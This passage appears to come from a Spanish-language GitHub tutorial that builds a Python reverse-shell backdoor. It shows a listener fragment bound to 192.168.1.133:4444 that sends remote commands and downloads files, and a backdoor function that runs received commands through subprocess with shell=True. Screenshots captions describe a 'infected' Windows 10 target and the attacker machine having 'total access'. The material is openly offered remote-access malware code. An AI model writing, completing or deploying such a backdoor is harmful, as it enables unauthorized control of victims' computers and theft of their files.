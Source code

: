```bash
            comando = comando.split(" ")
            resultado = self.ejecutar_remoto(comando)
            if comando[0] == "descargar":
                resultado = self.escribir_archivo(comando[1],resultado)
            print("\n" + resultado)

escuchar = Listener("192.168.1.133",4444)

escuchar.run()
```


![mejora de codnig error cd cde ubuntu](https://user-images.githubusercontent.com/97669969/157463472-24b60935-37be-49f1-8268-505b6dc947b7.png)
* Si en vez de cd se usa cde > por ex. El programa nos avisa de dicho error de ejecution, lo cual esta bien.




# BACKDOOR EN WINDOWS 
 
 * En windows solo tenemos que agregar .decode("windows-1252") a la siguente function en backdoor.py > 

# backdoor.py
```bash
 def ejecutar_comando(self,comando):
        return subprocess.check_output(comando,shell=True).decode("windows-1252")
```

# El resto del codigo sigue igual, tanto listener como backdoor.
* Siempre respetando la ip, el listener y el backdoor apuntan donde va estar el listener.

# Windows 10 (Target)

![backdoor en windows](https://user-images.githubusercontent.com/97669969/157506726-ced0e594-c119-4996-b584-74293717e3e1.png)
 * Backdoor corriendo correctamente, sistema infectado.

# Ubuntu (Hacker)

![backdoor en windows ubuntu](https://user-images.githubusercontent.com/97669969/157506923-f0d9b136-a183-4811-b549-8873cde3bec8.png)
* Tenemos acceso total a la maquina.




# Seguimos mejorando el codigo, con sys y DEVNULL 
